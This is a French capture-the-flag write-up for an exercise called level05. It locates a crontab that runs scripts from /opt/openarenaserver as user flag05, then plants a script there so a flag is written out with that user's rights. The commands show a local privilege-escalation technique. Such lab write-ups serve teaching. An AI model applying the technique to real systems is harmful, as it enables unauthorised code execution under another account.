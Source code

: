 # Level05:

**Pour le level05, nous allons simplement chercher dans tous les dossiers du system un fichier qui se nomme "level05" a l'aide de la commande suivante:**

`find / -name level05 -exec ls {} \; 2>/dev/null`

**En suite il suffit de regarder d'afficher le contenu des fichiers trouves**

`find / -name level05 -exec cat {} \; 2>/dev/null`

**On y voit en suite une CronTask a l'interieur, ce n'est qu'une tache qui s'execute toute les 2 minutes dans ce cas precis avec l'utilisateur flag05**
`*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`

**On sait donc que le binaire "openarenaserver" s'execute toute les 2 minutes**
**Avec la commande du crontask on constate qu'il essaye de lancer un script bash dans le fichier /opt/openarenaserver**
![intermediaire.png](./intermediaire.png)

**Je cree donc un script pour recuperer le flag du level05 dans le dossier temporaire**
`echo 'getflag > /tmp/flag' > /tmp/tmp.sh`
**Je lui ajoute les permissions d'execution**
`chmod +x /tmp/tmp.sh`
**Et je l'envoie dans le dossier du openarenaserver**
`cp /tmp/tmp.sh /opt/openarenaserver/`

**Je fais en suite un `cat /tmp/flag` Pour voir apparaitre le flag apres deux minutes d'attente**

![finaly.png](./finaly.png)